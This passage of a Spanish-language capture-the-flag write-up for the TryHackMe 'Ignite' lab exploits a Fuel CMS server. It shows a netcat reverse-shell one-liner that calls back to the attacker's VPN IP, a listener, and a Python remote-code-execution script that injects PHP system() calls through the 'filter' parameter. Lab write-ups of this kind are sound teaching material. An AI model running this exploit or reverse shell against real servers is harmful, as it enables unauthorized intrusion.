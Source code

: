 OK. Aprovechando que podemos ejecutar comandos en el servidor remoto, vamos a pedirle que se conecte a nuestra máquina local via **netcat** al puerto *4433*. Para eso utilizamos el siguiente código.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <TUNEL_IP> 4433 > /tmp/f
```

Donde `<TUNEL_IP>`&nbsp; es la IP con la que nuestro equipo se conecta a THM via VPN. Para saber cuál es podemos ejecutar `ip a`&nbsp; en nuestro terminal y echar un ojo a la interface ***tun0***.

Abrimos un nuevo terminal en nuestra máquina y ponemos a escuchar a **nc**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Ignite]
└─$ nc -lvp 4433
listening on [any] 4433 ...
```

Copiamos el código anterior y lo pegamos en el terminal donde hemos lanzado el script en python.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Ignite]
└─$ python3 ignite.py
cmd:rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.18.xx.xx 4433 > /tmp/f
Traceback (most recent call last):
  File "/home/ewan67/Documents/Cybersecurity/THM/Ignite/ignite.py", line 14, in <module>
    burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
AttributeError: module 'urllib' has no attribute 'quote'
```

Malo. Buscamos el error en internet y damos con [esto](https://stackoverflow.com/questions/31827012/python-importing-urllib-quote).

Toca modificar el fichero.

```
import requests
import urllib.parse

url = "http://10.10.254.226"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx
)+"%27%29%2b%27"

        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])
```
